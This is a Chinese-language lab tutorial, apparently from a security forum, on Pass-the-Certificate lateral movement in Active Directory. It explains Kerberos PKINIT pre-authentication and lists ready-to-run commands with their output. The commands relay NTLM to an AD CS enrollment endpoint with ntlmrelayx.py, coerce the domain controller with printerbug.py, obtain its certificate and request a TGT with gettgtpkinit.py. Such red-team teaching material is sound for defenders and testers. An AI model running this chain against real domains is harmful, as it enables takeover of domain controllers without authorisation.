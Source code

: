 0x01 PTC 攻击
===========

在域内横向攻击过程中，最经常使用到的技术就是PTH、PTK和PTT，具体可参考[该文章](https://www.cnblogs.com/bonelee/p/15916764.html)  
PTH - 通过 Hash 进行横向移动  
PTK - 通过 AES 密钥进行横向移动  
PTT - 通过票据进行横向移动

默认预认证阶段中使用到的是对称加密方式（DES、RC4、AES128密钥），如果域控内支持 PKINIT 协议，那么就可以使用非对称加密方式（证书）进行预认证。于是，一种新的横向技术诞生 —— 证书传递攻击（Pass the Certificate, PTC），如上所述，PTC攻击发生在预认证阶段，攻击者使用证书向 KDC 发起验证，获取对应的 TGT。这种攻击行为通常与[影子证书（Shadow Credentials）](https://forum.butian.net/share/1607)、AD CS攻击 和 [UnPAC-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash) 攻击 配合使用。

域内环境简介
------

```txt
域控 - 20.20.20.5
辅域控（AD CS）- 20.20.20.6
域内主机 - 20.20.20.10
Kali - 20.20.20.100
```

![x1tzyq.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-ca3b93f8d1af7ee6688192c8bf0a357f74f54348.png)

攻击流程
----

一个常规的证书传递攻击流程主要如下：

1. 获取到一个域账户
2. 找到 AD CS 网络注册服务
3. 申请到证书，窃取到证书 - ntlmrelay.py | printerbug.py
4. 获得目标DC的TGT - PKINITtools

首先使用ntlmrelay.py工具获取域控的证书

```shell
# 监听器
python3 ntlmrelayx.py -debug -smb2support --target http://20.20.20.6/certsrv/certfnsh.asp --adcs --template DomainController

# 强制认证
python3 printerbug.py hack.lab/spiderman:123.com@20.20.20.5 20.20.20.100
[*] SMBD-Thread-8: Connection from 20.20.20.5 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 4
[*] Base64 certificate of user DC01$: 
```

使用获取的证书进行预认证，申请 TGT 票据

```shell
# 通过gettgtpkinit.py使用证书申请TGT
python3 gettgtpkinit.py -cert-pfx dc01.pfx hack.lab/DC01$ dc01.ccache
```
